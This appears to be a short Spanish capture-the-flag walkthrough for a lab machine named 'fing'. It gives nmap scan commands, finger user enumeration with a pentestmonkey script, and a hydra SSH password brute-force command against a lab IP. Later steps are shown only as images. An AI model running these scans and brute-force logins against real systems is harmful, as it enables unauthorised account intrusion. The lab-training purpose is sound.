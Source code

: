 # Máquina fing

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.172

![alt text](image-1.png)

### Servicios y versiones 

sudo nmap -sV --script vuln -p22,79,80 --min-rate 6000 -vvv 192.168.42.172

![alt text](image-2.png)


### Explotación

Finger es un protocolo de Internet que permite obtener información sobre los usuarios conectados a un sistema remoto.

Entonces lo enumeramos con un script en perl.

https://github.com/pentestmonkey/finger-user-enum/blob/master/finger-user-enum.pl

![alt text](image-3.png)

![alt text](image-4.png)

hacemos fuerza bruta con hydra:

hydra -l adam -P /usr/share/wordlists/rockyou.txt ssh://192.168.42.172 -t 64 -I

![alt text](image-5.png)

me conecto por ssh:

![alt text](image-6.png)

### Escalar privilegios

![alt text](image-7.png)

![alt text](image-8.png)

### user.txt

![alt text](image-9.png)

### root.txt

![alt text](image-10.png)

